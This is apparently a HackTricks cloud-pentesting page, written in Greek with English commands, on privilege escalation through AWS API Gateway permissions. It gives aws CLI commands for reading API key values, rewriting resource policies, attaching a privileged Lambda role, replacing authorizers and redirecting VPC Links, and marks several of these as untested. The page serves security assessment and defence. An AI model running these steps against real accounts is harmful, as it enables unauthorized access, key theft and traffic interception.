 # AWS - Apigateway Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Apigateway

Για περισσότερες πληροφορίες, δείτε:

{{#ref}}
../../aws-services/aws-api-gateway-enum.md
{{#endref}}

### `apigateway:POST`

Με αυτή την άδεια μπορείτε να δημιουργήσετε κλειδιά API για τα API που έχουν ρυθμιστεί (ανά περιοχή).
```bash
aws --region <region> apigateway create-api-key
```
**Potential Impact:** Δεν μπορείτε να privesc με αυτήν την τεχνική αλλά ενδέχεται να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:GET`

Με αυτήν την άδεια μπορείτε να αποκτήσετε τα παραχθέντα API keys των APIs που έχουν ρυθμιστεί (per region).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potential Impact:** Δεν μπορείτε να privesc με αυτήν την τεχνική αλλά μπορεί να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Με αυτά τα permissions είναι δυνατόν να τροποποιήσετε το resource policy ενός API για να δώσετε στον εαυτό σας πρόσβαση να το καλέσετε και να καταχραστείτε τυχόν πρόσβαση που μπορεί να έχει το API gateway (όπως invoking a vulnerable lambda).
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
**Potential Impact:** Συνήθως δεν θα μπορείτε να κάνετε privesc άμεσα με αυτήν την τεχνική, αλλά μπορεί να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

> [!NOTE]
> Απαιτείται δοκιμή

Ένας επιτιθέμενος με τα δικαιώματα `apigateway:PutIntegration`, `apigateway:CreateDeployment`, και `iam:PassRole` μπορεί να **προσθέσει μια νέα integration σε ένα υπάρχον API Gateway REST API με μια Lambda function που έχει επισυναπτόμενο IAM role**. Στη συνέχεια ο επιτιθέμενος μπορεί να **προκαλέσει τη Lambda function να εκτελέσει αυθαίρετο κώδικα και ενδεχομένως να αποκτήσει πρόσβαση στους πόρους που σχετίζονται με το IAM role**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potential Impact**: Πρόσβαση σε πόρους που σχετίζονται με το IAM role της Lambda function.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

> [!NOTE]
> Χρειάζεται δοκιμή

Ένας επιτιθέμενος με τα δικαιώματα `apigateway:UpdateAuthorizer` και `apigateway:CreateDeployment` μπορεί να **τροποποιήσει έναν υπάρχοντα API Gateway authorizer** ώστε να παρακάμψει τους ελέγχους ασφαλείας ή να εκτελέσει αυθαίρετο κώδικα όταν γίνονται αιτήσεις API.
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Πιθανός Αντίκτυπος**: Παράκαμψη ελέγχων ασφαλείας, μη εξουσιοδοτημένη πρόσβαση σε πόρους API.

### `apigateway:UpdateVpcLink`

> [!NOTE]
> Χρειάζεται δοκιμή

An attacker with the permission `apigateway:UpdateVpcLink` can **τροποποιήσει ένα υπάρχον VPC Link ώστε να δείχνει σε διαφορετικό Network Load Balancer, ενδεχομένως ανακατευθύνοντας την ιδιωτική κίνηση του API σε μη εξουσιοδοτημένους ή κακόβουλους πόρους**.
```bash
VPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Πιθανός Αντίκτυπος**: Μη εξουσιοδοτημένη πρόσβαση σε ιδιωτικούς πόρους API, παρεμβολή ή διακοπή της κυκλοφορίας API.

{{#include ../../../../banners/hacktricks-training.md}}
